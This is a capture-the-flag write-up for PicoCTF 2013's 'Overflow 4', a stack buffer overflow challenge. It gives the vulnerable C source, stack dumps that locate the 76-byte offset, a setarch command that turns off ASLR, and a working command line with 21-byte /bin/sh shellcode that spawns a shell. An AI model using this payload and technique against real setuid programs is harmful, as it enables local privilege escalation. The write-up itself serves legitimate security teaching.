 # PicoCTF 2013: Overflow 4

**Category:** Binary Exploitation
**Points:** 150
**Description:**

>Stack overflows are the most basic binary exploitation technique, but they
>take a lot of skill to master. If you already know some C, these problems can
>help acquaint you with stacks and binary exploitation in general.

>Problem available on the shell machine in
>/problems/stack_overflow_4_4834efeff17abdfb , downloadable [here](https://2013.picoctf.com/problems/overflow4-4834efeff17abdfb) with source
>[here](https://2013.picoctf.com/problems/overflow4-4834efeff17abdfb.c).

>If you solve the problem you will be able to read the key file by running

>cat /problems/stack_overflow_4_4834efeff17abdfb/key
>on the PicoCTF shell machine.

>**HINT:**  Gonna need some [shellcode](http://en.wikipedia.org/wiki/Shellcode). Luckily some is provided for you in the
>directory on the shell machine.

## Write-up

Let's look at the source:
```C
#include <stdio.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "dump_stack.h"


/*
 * Goal: Get the program to run a shell.
 */

void vuln(char *str) {
    char buf[64];
    strcpy(buf, str);
    dump_stack((void **) buf, 21, (void **) &str);
}

int main(int argc, char **argv) {
    if (argc != 2) {
        printf("Usage: buffer_overflow_shellcode [str]\n");
        return 1;
    }

    uid_t euid = geteuid();
    setresuid(euid, euid, euid);
    vuln(argv[1]);
    return 0;
}
```

No convenient functions, and no calls to system are given to us. This means
that we need to get shellcode to run.

**Disclaimer: I've spoken to people who solved this during the actual contest. They
said that using ulimit to solve this problem was encouraged and/or hinted at by
the creators. In addition, I haven't been able to exploit it with ASLR
enabled.**

Now that that's out of the way, the first thing we do is find the offset before
we hijack `eip`

```
$ ./overflow4-4834efeff17abdfb $(python -c 'print "A"*76 + "BBBB"')

Stack dump:
0xffc3b180: 0xffc3c800 (first argument)
0xffc3b17c: 0x42424242 (saved eip)
0xffc3b178: 0x41414141 (saved ebp)
0xffc3b174: 0x41414141
0xffc3b170: 0x41414141
0xffc3b16c: 0x41414141
0xffc3b168: 0x41414141
0xffc3b164: 0x41414141
0xffc3b160: 0x41414141
0xffc3b15c: 0x41414141
0xffc3b158: 0x41414141
0xffc3b154: 0x41414141
0xffc3b150: 0x41414141
0xffc3b14c: 0x41414141
0xffc3b148: 0x41414141
0xffc3b144: 0x41414141
0xffc3b140: 0x41414141
0xffc3b13c: 0x41414141
0xffc3b138: 0x41414141
0xffc3b134: 0x41414141
0xffc3b130: 0x41414141 (beginning of buffer)
Segmentation fault (core dumped)
```

Now if you didn't read up on shellcode (go do it!) then here's the gist:
shellcode is a general name for assembly code that does what you want it to.
Some are forkbombs, some are connect back, this one just uses a `syscall` to
get us a shell. Regardless of what it does, if you have the address where the
shellcode is stored, you can put that into `%eip` to run it. Let's disable ASLR
so we have constant stack addresses.

```
$ setarch `uname -m` -R ./overflow4-4834efeff17abdfb $(python -c 'print "A"*76
+ "BBBB"')
Stack dump:
0xffffd660: 0xffffd800 (first argument)
0xffffd65c: 0x42424242 (saved eip)
0xffffd658: 0x41414141 (saved ebp)
0xffffd654: 0x41414141
0xffffd650: 0x41414141
0xffffd64c: 0x41414141
0xffffd648: 0x41414141
0xffffd644: 0x41414141
0xffffd640: 0x41414141
0xffffd63c: 0x41414141
0xffffd638: 0x41414141
0xffffd634: 0x41414141
0xffffd630: 0x41414141
0xffffd62c: 0x41414141
0xffffd628: 0x41414141
0xffffd624: 0x41414141
0xffffd620: 0x41414141
0xffffd61c: 0x41414141
0xffffd618: 0x41414141
0xffffd614: 0x41414141
0xffffd610: 0x41414141 (beginning of buffer)
Segmentation fault (core dumped)
```
If you run this command multiple times, you will see that the addresses on the
left won't change from run to run. We've disabled ASLR. Now here's the plan to
get a shell. Since we know the address of our buffer, 0xffffd610, we can
reliably jump to it. We can put the shellcode in the first part of our buffer,
and then supply the address to `%eip` hopefully giving us a shell! (The length
of the shellcode I usually use is 21 bytes)

```
$ setarch `uname -m` -R ./overflow4-4834efeff17abdfb $(python -c 'print
"\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
+ "A"*(76-21) + "\x10\xd6\xff\xff"')
Stack dump:
0xffffd660: 0xffffd800 (first argument)
0xffffd65c: 0xffffd610 (saved eip)
0xffffd658: 0x41414141 (saved ebp)
0xffffd654: 0x41414141
0xffffd650: 0x41414141
0xffffd64c: 0x41414141
0xffffd648: 0x41414141
0xffffd644: 0x41414141
0xffffd640: 0x41414141
0xffffd63c: 0x41414141
0xffffd638: 0x41414141
0xffffd634: 0x41414141
0xffffd630: 0x41414141
0xffffd62c: 0x41414141
0xffffd628: 0x41414141
0xffffd624: 0x41414180
0xffffd620: 0xcde3896e
0xffffd61c: 0x69622f68
0xffffd618: 0x68732f2f
0xffffd614: 0x68510bb0
0xffffd610: 0xe1f7c931 (beginning of buffer)
$
```

pwn.

## Other write-ups and resources

* none yet
